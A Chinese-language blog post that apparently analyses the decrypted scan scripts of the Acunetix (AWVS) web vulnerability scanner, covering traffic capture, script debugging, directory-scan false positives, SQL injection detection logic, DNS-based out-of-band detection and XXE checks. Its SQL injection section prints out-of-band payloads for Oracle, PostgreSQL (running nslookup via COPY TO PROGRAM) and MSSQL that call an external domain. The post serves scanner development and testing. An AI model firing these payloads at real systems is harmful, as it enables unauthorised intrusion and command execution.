## 目录
- [前言](#前言)
- [分析方法](#咋分析？)
    - [环境搭建](#搭建环境，抓流量分析)
    - [脚本调试](#script源码分析和调试)
- [收获](#从awvs学到啥)
    - [扫描方式](#扫描方式)
    - [规则](#规则，大把大把的规则)
    - [acumonitor技术](#acumonitor技术)
    - [文件扫描思路](#awvs的网站目录和文件扫描思路)
    - [sql注入检查](#sql注入检查)
    - [xxe优化](#xxe-优化)
- [结尾](#结尾)

## 前言
最近对awvs进行一些简单的分析，总所周知awvs是非常好用的扫描器。强大的爬扫能力让很多人喜欢他，不过强大的话也有对应的缺点。第一，体积庞大，扫描耗时较久；第二，无法跨平台，只能在windows平台上使用。不过这几个缺点对于这个牛逼的扫描器貌似也没啥影响，还是有很多人喜欢用。

不过对于扫描器来说，核心的还是规则，我们还是可以重点分析一下awvs的扫描规则。

## 咋分析？
### 搭建环境，抓流量分析
一个web狗，不会分析二进制，所以我只能抓包分析了。

搭建一个漏洞URL(这里只要一个URL就够了，多了payload就太多了不好分析)。用burp来抓，设置好burp的代理地址(proxy-options-proxy listeners-add)。在awvs中设置一下扫描器的使用的代理地址为burp就开心的抓包了。



简单的抓包，可以大体的看来awvs都做哪些扫描，而且我们可以找到一些马上可以利用的规则，比如破壳规则，文件读取，备份文件扫描，敏感文件扫描，ssrf，头注入等。

### script源码分析和调试
但是在分析了一波流量之后，还是感觉很多payload找不到规则(比如sql注入的逻辑，jboss的漏洞扫描规则等等)。于是看了一下awvs的安装目录发现有一个data/scripts目录，里面有很多加密的文件，不用说了一定是扫描规则。

于是在网上找看有没有人做过相关工作，发现还真有[写OD脚本解密WVS脚本](http://blog.oowoodone.com/archives/2016/03/30/wvs_script_decode/)、[编写AWVS脚本探测web services](http://gv7.me/articles/2017/Writing-AWVS-scripts-to-detect-Web-Services/),问博主要了一下规则，他直接把规则同步到Github,[解密好的AWVS10.5 data/script/目录下的脚本](https://github.com/c0ny1/awvs_script_decode),这种“前人种树，后人乘凉”的感觉还是很舒服的，所以自己以后也要多种种“树”。

打开规则一看全是类似与javascrit的脚本，直接看还是有点难懂。如果能运行并调试起来就美滋滋了。去搜索了一下官方的关于script的文档发现，awvs提供了编写script脚本的接口，[接口地址](http://www.acunetix.com/download/tools/WVSSDK.zip)。解压以后里面有一个说明文档，根据文档就明白多了。

根据文档我们可以知道：
>1.awvs提供了wvs scripting程序给我们进行自定义的脚本编写，我们可以用它来对这些脚本进行调试，(只需要把这个文件拷贝到awvs的安装目录即可)。
2.awvs 提供了script可用api，在https://www.acunetix.com/resources/sdk/种可以进行查看。
3.script的几个脚本目录是根据扫描的特点进行分类的：
    3.1.includes 头文件，用于常量声明，生产随机数 和md5加密等等，很多扫描的匹配规则会在这里定于这个文件
    3.2.network 主机的漏洞扫描 个人感觉非重点 比较avws是搞web扫描出名的。
    3.3.PerFile 在文件名上的加payload测试，比如根据文件名扫备份文件扫描，破壳漏洞扫描等，个人理解就是根据uri进行一些参数扫描
    3.4.PerFolder 根据目录型的url 进行一些扫描 比如敏感目录泄漏扫描，敏感文件泄漏扫描，git泄露扫描等。
    3.5.PerScheme awvs将有参数传递的url称为Scheme，所以这个目录就是在各个参数传入点设置扫描payload进行对应的漏洞测试。比如命令执行漏洞，代码执行漏洞，xss漏洞扫描，sql漏洞扫描等等。（我们可以在这个目录中学到很多规则和漏洞扫描姿势。）
    3.6.PerServer 一般用于测试第三方中间件，包括指纹识别，只最开始扫描的时候进行一次。比如Flask_Debug 打开，jboss各种漏洞，tomcat各种漏洞等。
    3.7 WebApps 第三方cms漏洞扫描。比如wordpress的漏洞扫描，joolma漏洞扫描等等


下面以/Scripts/PerFile/Bash_RCE.script作为一个调试案例：使用wvs scripting打开/Scripts/PerFile/Bash_RCE.script文件。



点击小齿轮，设置扫描目标：



这里比较蛋疼就是不能直接输入扫描的目标（反正我没找到），需要去load一下awvs爬虫保存的.cwl文件。我们在awvs上简单爬一下扫描的目标，然后保存成xxx.cwl。再通过wvs scripting去load这个文件。



最后是运行，这里具体根据script来确定set target的什么类型，比如Bash_RCE.script，中用了`var file = getCurrentFile()`,你就需要set file target，最后run per file。（当然还有其他的就不在举例子了)





到这里我们就可以跑起每个脚本进行运行调试了，能跑起来，我们就可以去logInfo一些东西，这样去看脚本都做哪些操作就简单多了。

tip:那么我们可以一个一个目录的去分析每个脚本，当然也有一个小技巧去提前分析高危的扫描脚本。那就是先用awvs去扫一下他的测试站点:http://testphp.vulnweb.com/ ,awvs会告诉你是哪个脚本发现的漏洞和且匹配到的内容，这样我们就挑选自己最先想研究的漏洞来看。(不过要注意这个testphp测试站点，awvs默认启动了[AcuSensor Technology技术](https://www.acunetix.com/vulnerability-scanner/acusensor-technology/)如果你要用它做测试站点的话，代码逻辑会走到acusensor对应的代码)



## 从awvs学到啥
### 扫描方式
awvs在扫描前，都会对url进行的详细的分类和参数的解析。常见为:file,folder,scheme等类型。几乎每种类型的url都会有一个目录对他进行专门的漏洞扫描。

在扫描前对url进行比较细致的分类是可以学习一波的，特别是对scheme类型的url进行参数解析。大部分的扫描都会有这部分的参数解析，不过一般都是类似于(a=b&c=1的这种解析)，但是如果参数是json格式的`b=1&c={"uname":"wilson","id":"23333"}` ,很多扫描器不支持，不过大家可以参加一下sqlmap的json格式解析([walk方法](https://github.com/sqlmapproject/sqlmap/blob/master/lib/core/common.py))

至于每种类型的url都会有一个目录对它进行专门的漏洞扫描方式的话，你也可能选择用一个脚本去处理一类漏洞类型，然后对这个漏洞类型可能在哪种url类型出现进行测试。

### 规则，大把大把的规则
看到代码最大的好处就是可以看到他的匹配正则了，比如敏感部署文件备份匹配规则，任意文件读取规则，sql报错注入关键字匹配，命令执行等等。







更多规则见脚本。

### AcuMonitor技术
[AcuMonitor 技术](https://www.acunetix.com/vulnerability-scanner/acumonitor-technology/),这东西简单理解就是和你的dnslong一样的，适用于扫描无回显的漏洞，比如：
- Blind Server-side XML/SOAP Injection
- Blind XSS (also referred to as Delayed XSS)
- Host Header Attack
- Out-of-band Remote Code Execution (OOB RCE)
- Out-of-band SQL Injection (OOB SQLi)
- SMTP Header Injection
- Server-side Request Forgery (SSRF)
- XML External Entity Injection (XXE)

我们可以在脚本中找到他们的规则：





那么重点是怎么把漏洞和对应url关联??我的处理是让漏洞服务器发起http请求，将urlid带到uri中，比如`http://blog.wils0n.cn/urlid/param/cveid`。根据这uri中的urlid进行定位url参数。但是这样会还是会有一些漏扫，比如ssrf只出现在http的host中，uri并不会带入请求。所以比较准确一个是使用dns来做。例如:`nslookup dns.urlid-param-cveid.wils0n.cn`,在服务端上根据urlid-param-cveid来处理漏洞。  关于dnslog service的搭建：

>使用方法一)一个服务器
工具：https://github.com/Wyc0/DNSLog/blob/master/dns.py(简单，一个脚本就够了)
触发方法：nslookup urlid-param-cveid.wils0n.cn 服务器的ip
这种方法必须指定后面的ip。
>使用方法二）一个服务器加一个域名：
域名设置(请教了@izy和@凤凰)
用阿里云的为例子：
1.设置一个a记录。ns1.wils0n.cn --->你的服务ip假如 118.11.11.11
2.设置一个ns记录。 dns.wils0n.cn --->ns1.wils0n.cn

存在的问题：

- 问题1）没有响应包回复，导致请求会一直发，可以参考https://github.com/BugScanTeam/DNSLog/blob/master/dnslog/zoneresolver.py 进行改进一下
- 问题2) url跳转扫描可能会导致误报的情况出现，由于dns请求会绕过很多跳，所以根据扫描ip来判断是无法做到，暂时不知道怎么解决。。。不过误报会比漏报好一些

### awvs的网站目录和文件扫描思路
很多web扫描器的开始都是对url进行网站目录和文件扫描，然后再结合爬虫一起爬一下。

因为大家的想法都是：“不管有没有漏洞，我先扫一遍目录再说”，所以网上这种爬目录文件的工具极其多。

看了一下网上的工具的逻辑大概是:
1. 取一个不可能存在的url，判断是不是存在404的状态码。存在的404话，下面的判断只要根据状态码来判断是否存在就好了。不存在的话走下面2的逻辑。
2. 获取该不存在url的相应内容，作为一个404不存在的页面标示，接下去的扫描如果获取到页面不和这个404表示一样的就认为是200的存在页面。


这个思路在大部分情况下面用。但是有些站点，你会发现扫到一堆200的误报。分析为什么：
1. 在逻辑1中，404的判断取一个不存在的url是不够的，你需要取多个，因为有的站点xxxx.php是404，而xxxx.jsp就变成200了。
2. 在逻辑2中，有种情况是这个404的页面是会不断变化的，比如淘宝的404页面中，下面会出现不同的链接商品推荐。这样就会产生一大堆的误报。

那么我们分析一下awvs的目录和文件扫描姿势:(Backup_File.script，Sensitive_Files.script, Possible_Sensitive_Directories ,Possible_Sensitive_Files)
1. 在Backup_File和Sensitive_Files中看到能用正则匹配的，先用规则来匹配，这个比较准确，误报低。
2. Backup_File中我们发现，awvs的再解决逻辑2中出现的问题时候，用了一个小的tip:在发现页面内容和404标示不一样的时候，再去取了一个不存在的url2获取新的404标示，然后判断两个标示是不是一样，一样的话说明这个200扫描没用问题，从而去掉这个误报。
3. 在Possible_Sensitive_Directories ,Possible_Sensitive_Files中，我们发现awvs去掉了逻辑2。只对存在404的url进行目录和文件扫描。而目录扫描和文件扫描的逻辑不一样的，我们发现当一个文件存在时候返回时200，但是当一个目录存在的时候确是302跳转，我们需要匹配http头的Location进行判断。那么网上那些扫描目录工具不就2b了么？
这里其实要说到一个坑，这些工具都是使用了python的requests库，这个库默认是会进行url跟随跳转的。所以他们没有必要区分扫描目录和文件扫描。如果你把requests中设置了allow_redirects=False，那你就要去自己匹配http头的Location关键字。

个人感觉扫目录逻辑走第一和第三就可以了。

### sql注入检查
可能很多人都会用sqlmap来做注入检查，但是sqlmap还是有点大，扫描payload比较多，扫描时间长。awvs的sql注入也可以参考一下:
#### 基于错误返回信息的关键字直接判断为存在sql注入漏洞。(Sql_Injection.script)
要匹配的关键字有:
```
You have an error in your SQL syntax|The database has encountered a problem|database error|unknown column\\s|SQL syntax.*MySQL|Warning.*mysql_.*|(Incorrect\ssyntax\snear\s'[^']*')|.....(很多大家去对应脚本里面找)
```
这样匹配的话，还是比较准确的，但是有的时候会有误报。
#### 盲注入(Blind_Sql_Injection.script)
##### bool型的盲注入
我把这部分的扫描逻辑理了一下，大概是这样的：
1. 判断参数是不是有效的，即：输入和原来的值不一样的参数时候，页面(过滤过的，过滤了html标签，当前输入值，原始输入值)是否一样
2. 如果参数有效，就用 and payload 判断是不是存在漏洞(多个判断)
3. 如果参数无效，就用 or payload 判断是不是存在漏洞(多个判断)

我参考以后，发现它会有一些漏扫描，比如 数字型等带有单引号的注入。
然后我决定优化一下，并去掉第三步的验证。因为一般都无有效参数的，无效的参数一般不做检查了，而且or注入可能会导致一些误报等。

##### 基于时间盲注入
原理很简单，然后数据库去sleep一段时间。payload对应脚本里面找，或者可以参考一下sqlmap的, 然后就是注意各种闭合，比如: ', ", ), )), '), "), ')), ")), ;, 等等。

个人的实践告诉我，基于时间的注入检查是最准确的。如果你是甲方的话，基于时间盲注入应该是最适合你的了。因为你可以去监控mysql的慢日志或者异常日志去查询sleep登关键字来结合着一起发现sql注入漏洞，我在实践中是有用这种方法发现过一些比较隐蔽的sql注入的。

#### 结合AcuMonitor盲打
测试orcale注入
```
xxxx||UTL_INADDR.get_host_address('{DOMAIN}')
```
 PostgreSQL
```
{ORIGVALUE};copy (select '') to program 'nslookup {DOMAIN}
```
 windows +mssql:
```
{ORIGVALUE};EXEC master..xp_dirtree '\\{DOMAIN}\' -- 
```
同样，也要注意各种闭合。

### xxe 优化
xxe漏洞检测，改变Content-type头（text/xml，application/xml），可能会测出漏洞。

更多脚本还在分析

## 结尾
很多挺好玩的漏洞扫描知识，因为文章篇幅和时间精力问题就没有进行更多分析了，大家可以自己去找自己感觉好用的script进行debug和逻辑分析。分析到好的思路也可以分享出来看看。

文章参考

http://www.acunetix.com/

http://blog.oowoodone.com/archives/2016/03/30/wvs_script_decode/

http://gv7.me/articles/2017/Writing-AWVS-scripts-to-detect-Web-Services/
